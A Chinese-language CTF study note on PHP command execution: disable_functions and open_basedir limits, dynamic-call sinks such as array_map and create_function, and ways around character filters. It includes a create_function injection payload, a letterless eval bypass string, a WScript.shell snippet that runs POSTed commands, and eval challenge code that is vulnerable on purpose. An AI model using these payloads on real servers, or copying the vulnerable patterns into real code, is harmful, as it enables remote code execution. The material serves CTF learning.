

# 命令执行

# 特定语言的命令执行

> 一般可以做什么限制？有什么函数可以利用？在禁用部分函数之后怎么办？如果找到/绕过禁用的函数？

## PHP

### php 函数限制

在 `php.ini` 中可以用以下配置限制内置函数的执行：

```ini
disable_functions=exec,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source
```

题目也可能通过 `ini_set` 方法或者字符串检查等方法限制可以执行的函数。

类似地，以下配置可以限制 PHP 进程能够访问的目录：

```ini
open_basedir=/home/user
```

`open_basedir` 能够限制 `file_get_content` 等函数读取文件的范围。

需要留意的是 `open_basedir` 中限制的是目录前缀，上述配置并不能限制访问 `/home/user_12`。

### 可能触发命令执行的方法

#### 特性1: 字符串当作函数

```php
<?php
$a = 'system';
echo $a('whoami');
```

#### 特性2: array_map

```php
<?php

$func = $_GET['a'];
$arr = $_GET['b'];

array_map($func, $arr);
```

类似"字符串当函数"，这里的 `$func` 是字符串，但会被当成函数调用。

#### 特性3: create_function

PHP 提供用 `create_function` 动态创建函数的能力（在 8.0 移除），用法如下：

```php
<?php
$newfunc = create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);');
echo $newfunc(2, M_E) . "\n";
```

第一个参数为新函数的参数列表，第二个参数为函数体，其工作原理近似如下：

```php
<?php
$params = $args[0];
$body = $args[1];
$func = eval("function ($params) { $body }");
```

因此只要我们能够控制任一参数，都能够直接完成命令执行，以下是当第一个参数可控时的 payload：

```php
){}; phpinfo(); function(){
```

#### 特性4: preg_replace

当使用被弃用的 `e` 修饰符时, 这个函数会转义一些字符(即：`'`、`"`、 `\` 和 `NULL` 然后进行后向引用替换。在完成替换后， 引擎会将结果字符串作为php代码使用eval方式进行评估并将返回值作为最终参与替换的字符串。

```php
echo preg_replace('/chabug/e','phpinfo()','asdasdchabugasd');
```

#### 特性5: assert/exec/eval/shell_exec/system/call_user_func/proc_open/passthru/反引号

类似直接执行参数中的内容，略

### 绕过禁止函数的方法

#### 特性1: 无字母 eval

```php
<?php
include 'flag.php';
$code = $_GET['code'];
if(strlen($code)>40){ //检测字符长度
  die("Long.");
}
if(preg_match("/[A-Za-z0-9]+/",$code)){ //限制字母和数字
  die("NO.");
}
@eval($code); //$code的值要为非字母和数字
//$hint = "php function getFlag() to get flag";
```

可以利用字符串运算的结果：如 `'#' ^ '|' = '_'`，因此可以用：

```php
?code=${"{{{{"^"'$<>/"}["`"^"?"]();&_=getFlag
```

#### 特性2: Windows 组件绕过

```php
$command = $_POST[a];
$wsh = new COM('WScript.shell');    //生成一个COM对象
$exec = $wsh->exec('cmd.exe /c '.$command);    //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
```

## Python

## Java

## 其他语言


## 字符串当作函数

语法很简单，关键是题目

 

### Powershell

例题：（2023信安国赛初赛）

虽然这是逆向题，但是是同一个考点

[problem_658a80448823232e1c4f44d7760ee2da.zip 4646177](attachments/39403974-fb96-455b-af2d-c2e1aef0862f.zip)

### PHP

例题：（2024信安国赛半决赛）

要求输入之后能够调用另一处的某个函数 `myfunction("myparams")`

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
	if(preg_match('/[a-z,A-Z,0-9<>\?]/', $_POST['code']) === 0){
		eval($_POST['code']);
	}else{
		die();
	}
}else{
	phpinfo();
}
?>
```